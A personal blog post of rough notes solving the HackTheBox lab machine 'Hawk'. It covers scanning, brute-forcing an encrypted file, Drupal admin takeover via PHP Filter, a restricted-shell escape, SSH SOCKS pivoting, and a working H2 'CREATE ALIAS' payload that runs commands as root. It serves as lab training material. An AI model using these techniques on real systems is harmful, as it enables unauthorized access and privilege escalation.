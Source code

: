 ```yaml
---
title: HackTheBox Notes - Hawk (ft. Procrastination)
thumbnail: hawk-thumb.png
category: infosec
---
```


Due to my incredible laziness, my last HTB article was five months ago. This is because I can't be bothered to explain stuff in a proper walkthrough of the boxes, so here's something much easier: I'm just posting the notes I was writing down as I was going through the box.

This is probably what I'm going to keep doing for HTB from now on, I have another three boxes that I'll publish when they are retired. But worry not, I promise after those boxes, I'll have much higher quality notes that won't be a confusing and poorly written mess.

I'm also not doing those old thumbnails of the box identicons anymore because those are way to hard to draw on a touchpad.

- - - -

### Nmap Scan
```
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-05 18:11 AEDT
Nmap scan report for 10.10.10.102
Host is up (0.28s latency).
Not shown: 937 closed ports, 60 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Jun 16 22:21 messages
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.14.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e4:0c:cb:c5:a5:91:78:ea:54:96:af:4d:03:e4:fc:88 (RSA)
|   256 95:cb:f8:c7:35:5e:af:a9:44:8b:17:59:4d:db:5a:df (ECDSA)
|_  256 4a:0b:2e:f7:1d:99:bc:c7:d3:0b:91:53:b9:3b:e2:79 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome to 192.168.56.103 | 192.168.56.103
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.09 seconds
```

### FTP Server
`ftp://10.10.10.120`

* Allows anonymous login
* Only file in `messages/.drupal.txt.enc`
* Can’t download with `get` for some reason, so let’s just view it

```
ftp> get .drupal.txt.enc -
remote: .drupal.txt.enc
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .drupal.txt.enc (240 bytes).
U2FsdGVkX19rWSAG1JNpLTawAmzz/ckaN1oZFZewtIM+e84km3Csja3GADUg2jJb
CmSdwTtr/IIShvTbUd0yQxfe9OuoMxxfNIUN/YPHx+vVw/6eOD+Cc1ftaiNUEiQz
QUf9FyxmCb2fuFoOXGphAMo+Pkc2ChXgLsj4RfgX+P7DkFa8w1ZA9Yj7kR+tyZfy
t4M0qvmWvMhAj3fuuKCCeFoXpYBOacGvUHRGywb4YCk=
226 Transfer complete.
240 bytes received in 0.00 secs (5.8688 MB/s)
ftp>
```
Just a base64 string

* But decoding it makes some gibberish
```
justin@sierra-fc282: ~ # echo
"U2FsdGVkX19rWSAG1JNpLTawAmzz/ckaN1oZFZewtIM+e84km3Csja3GADUg2jJbCmSdwTtr/IIShvTbUd0yQxfe9OuoMxxfNIUN/YPHx+vVw/6eOD+Cc1ftaiNUEiQzQUf9FyxmCb2fuFoOXGphAMo+Pkc2ChXgLsj4RfgX+P7DkFa8w1ZA9Yj7kR+tyZfyt4M0qvmWvMhAj3fuuKCCeFoXpYBOacGvUHRGywb4YCk=" | base64 --decode
<random giberish that breaks my mardown parser>
justin@sierra-fc282: ~ #
```

* Now as it turns out, I did in fact download it but I just didn’t see it because it was a hidden file and I was using a normal `ls`…
* Anyway, because of the `.enc` extension, I’m gonna go ahead and assume it’s encrypted with OpenSSL. So now we save the decoded version to a file
`cat drupal.txt.enc | base64 --decode > drupal.b64d.enc`
* Downloaded [this tool to bruteforce the password](https://github.com/glv2/bruteforce-salted-openssl)
* And now we try it with some basic options

```
root@kali:~/Documents/htb/hawk# /opt/file/bruteforce-salted-openssl/bruteforce-salted-openssl -t 6 -f /usr/share/wordlists/rockyou.txt -c aes256 -v 30 drupal.b64d.enc

Warning: using dictionary mode, ignoring options -b, -e, -l, -m and -s.

Tried passwords: 14344391
Tried passwords per second: 896524.437500
Last tried password: *7¡Vamos!

Password not found.
The file might have been encrypted with a different cipher or/and a
different digest (e.g. OpenSSL 1.0.x uses the MD5 digest by default
but OpenSSL 1.1.x uses SHA256 by default).
```
Nope. This might take a while…

* Okay let’s try it with a different digest `sha256`

```
root@kali:~/Documents/htb/hawk# /opt/file/bruteforce-salted-openssl/bruteforce-salted-openssl -t 6 -f /usr/share/wordlists/rockyou.txt -c aes256 -d sha256 -v 30 drupal.b64d.enc
Warning: using dictionary mode, ignoring options -b, -e, -l, -m and -s.

Tried passwords: 32
Tried passwords per second: inf
Last tried password: hello

Password candidate: friends
```
That was easy. We were not here for a while, I lied

* Now we can decrypt it

```
root@kali:~/Documents/htb/hawk# openssl enc -d -aes256 -salt -in drupal.b64d.enc -out drupal.decrypted -k friends
*** WARNING : deprecated key derivation used.
Using -iter or -pbkdf2 would be better.
root@kali:~/Documents/htb/hawk# cat drupal.decrypted
Daniel,

Following the password for the portal:

PencilKeyboardScanner123

Please let us know when the portal is ready.

Kind Regards,

IT department
```
Neato

### Drupal Web Portal
`http://10.10.10.102`

* Login with `Admin`:`PencilKeyboardScanner123`
* `admin/reports/status` says Drupal version is `7.58`
	*  `/CHANGELOG.txt` says it was patched for `CVE-2018-7600`
* Looks like we gotta upload a good ol’ PHP reverse shell.
	* First we need to allow Drupal to add PHP page snippets. In `admin/modules` tick the `PHP Filter` option
	* Go to `node/add/page` and upload the shellcode
	* You know the rest

### PHP Reverse Shell
* Logged in as `www-data`
* We have access to `/home/daniel/user.txt`. So just get that
- - - -
* Attempted to ssh with a password found in `/var/www/html/sites/default/settings.php ` - `drupal4hawk` with username `daniel`

### SSH Python Client
* `daniel` user uses a Python restricted shell. So yep
* Easy fix `import pty; pty.spawn(‘/bin/bash’)`

### SSH Bash Client
* Logged into mysql server with `drupal`:`drupal4hawk`
	* In `users` table

```
name: admin
pass: $S$DFw163ixD00W55hdCqtvCB13XOTLhZ0pt0FVpFy1Ntmdp5EAOX08
```
The hash is a special `sha512 (Drupal)` hash, so this is probably not where we are supposed to be

* Another database `h2` is running as root. We can access it on `10.10.10.102:8082`
	* But we get denied access because it only accepts connections from localhost, we need to set up a proxy
	* Create a new SSH session with `ssh -D 8080 daniel@10.10.10.102`
	* Setup Firefox to allow SOCKS proxy with `127.0.0.1:8080`
	* Now we can access it
* Looking back at `ps -aux` we see that the process is running without the `-user` or `-pass` args which means we can access it with default credentials
	* But, of course… this doesn’t work
	* [Frequently Asked Questions](http://www.h2database.com/html/faq.html#connect) for `h2` shows that the database may be stored somewhere different
	* Replaced `~/test` with `./data/test` and we’re in

### H2 Web Console
`10.10.10.102:8082`

* Looked for an exploit and [found this](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html)
* So in the console you run

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('cat /root/root.txt')
```
And it displays
```
CALL SHELLEXEC('cat /root/root.txt');
PUBLIC.SHELLEXEC('cat /root/root.txt')
54f3e840fe5564b42a8320fd2b608ba0
(1 row, 5 ms)
```
